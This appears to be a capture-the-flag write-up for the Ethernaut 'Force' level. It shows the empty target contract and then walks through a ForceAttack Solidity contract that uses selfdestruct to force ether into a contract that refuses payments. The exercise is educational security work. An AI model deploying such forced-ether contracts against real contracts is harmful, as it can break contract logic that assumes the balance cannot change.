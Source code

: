 # Challenge 7

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

Challenge
---
> Some contracts will simply not take your money ¯\_(ツ)_/¯

  The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

  - Fallback methods
  - Sometimes the best way to attack a contract is with another contract.

Solution 
---
1. `selfdestruct` - get all the contracts ethers and send i to the designated address.

2. Hope in the Remix and paste your instance address from the terminal and paste it into the `At Address`. now you will see contract.

3. Create new Contract Here's The code ⬇️
```solidity
contract ForceAttack {
    Force forceAddress;

    constructor(address _addr) public {
        forceAddress = Force(_addr);
    }

    // destroy the contract and send all the ether amount to force contract
     function sendEther() public payable {
         require(msg.value > 0);
         selfdestruct(payable(address(forceAddress)));
     }   

     receive() external payable{}

     fallback() external payable{}
}
```

get the Force Contract address and Add it to the Deploy input box and Deploy, Send 1 wei (enough for our solution) you will see Force Contracts received 1 wei amount into the contract. submit the instance your challenge will be cleared. 🎉